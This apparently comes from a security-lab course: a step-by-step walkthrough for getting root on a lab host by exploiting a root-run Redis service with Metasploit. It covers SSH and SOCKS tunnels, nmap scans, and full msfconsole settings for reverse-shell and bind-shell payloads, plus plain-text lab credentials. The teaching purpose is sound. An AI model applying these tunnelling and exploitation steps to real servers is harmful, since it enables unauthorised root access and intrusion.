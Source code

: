 
### 5.1 Reverse shell payload
After ssh-ing into target1, elevate your privileges to root. If you want to try and root target1 without any hints, now’s your chance. Do not worry if you crush the service, it will automatically restart so you can try again. Otherwise, scroll down for more details. Please double check your proxychains settings as outlined in the "Install proxychains4" section.

credentials dory / justkeepswimming

We are going to exploit the redis server running as root that is listening on 127.0.0.1:6379. There are two options to setup tunnels. If you do not want to modify your /etc/proxychains4.conf file, use -L tunnels (option 1). 

#### Method 1

```
ssh $USER@$JB1 -L 2222:$TARGET1:22
```

From Kali, ssh into target1 and setup the tunnels to exploit. You can optionally supply the proxychains4 config file using -f /etc/proxychains4.conf. The -L tunnel allows us to access and exploit the redis service, and the two -R tunnels are for the malicious Master server and payload callback, respectively.

```
export USER2=dory
```

```
ssh $USER2@127.0.0.1 -p 2222 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Reverse Shell]]


#### Method 2

If you want to use a -D SOCKS tunnel (option 2), you will need to uncomment the `localnet 127.0.0.1/255.255.255.0` line in your /etc/proxychains4.conf file so it looks like the one below. This tells proxychains to not use the SOCKS proxy for any traffic hitting 127.0.0.1 on your Kali box.


credentials dory / justkeepswimming

```
ssh $USER@$JB1 -D 9050
```

```
proxychains4 ssh dory@$TARGET1 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Reverse Shell]]

#### Metasploit - Reverse Shell

SHELL 1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/linux/redis/redis_replication_cmd_exec
```

Leverage a -L forward tunnel to access the redis service.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 6379
```

Leverage a -R port forward to act as the malicious Master server.  This tells target1 to callback to itself , riding the -R 4444 tunnel back to the Kali host.
```
set SRVHOST 127.0.0.1
```

```
set SRVPORT 4444
```

```
set PAYLOAD linux/x64/shell_reverse_tcp
```

Configure the payload to call back to target1 itself, riding the -R 5555 tunnel back to the Kali host.
```
set LHOST 127.0.0.1
```

```
set LPORT 5555
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.
```
use exploit/multi/handler
```

```
set PAYLOAD linux/x64/shell_reverse_tcp
```

```
set LPORT 5555
```

```
set LHOST 127.0.0.1
```

```
show options
```

```
run
```

SHELL 1:
```
check
```

```
exploit
```

### 5.2 Bind shell payload

Same as previous exercise, but configure the payload to be a bind shell.

We are going to exploit the redis server running as root that is listening on 127.0.0.1:6379. There are two options to setup tunnels. If you do not want to modify your /etc/proxychains4.conf file, use -L tunnels (option 1). 

credentials dory / justkeepswimming

#### Method 1
```
ssh $USER@$JB1 -L 2222:$TARGET1:22
```

```
export USER2=dory
```

```
ssh $USER2@127.0.0.1 -p 2222 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -L 6666:127.0.0.1:6666
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Bind Shell]]

#### Method 2

If you want to use a -D SOCKS tunnel (option 2), you will need to uncomment the localnet 127.0.0.1/255.255.255.0 line in your /etc/proxychains4.conf file so it looks like the one below. This tells proxychains to not use the SOCKS proxy for any traffic hitting 127.0.0.1 on your Kali box.

credentials dory / justkeepswimming

```
proxychains4 ssh dory@$TARGET1 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 6666:127.0.0.1:6666
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Bind Shell]]

#### Metasploit - Bind Shell

SHELL 1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/linux/redis/redis_replication_cmd_exec
```

Leverage a -L forward tunnel to access the redis service.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 6379
```

Leverage a -R port forward to act as the malicious Master server.  This tells target1 to callback to itself , riding the -R 4444 tunnel back to the Kali host.
```
set SRVHOST 127.0.0.1
```

```
set SRVPORT 4444
```

```
set PAYLOAD linux/x64/shell_bind_tcp
```

Configure the payload to listen on target1's 127.0.0.1 interface.
```
set RHOST 127.0.0.1
```

```
set LPORT 6666
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

```
exploit
```

SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.
```
use exploit/multi/handler
```

```
set payload linux/x64/shell_bind_tcp
```

```
set LPORT 6666
```

```
set RHOST 127.0.0.1
```

```
show options
```

```
run
```

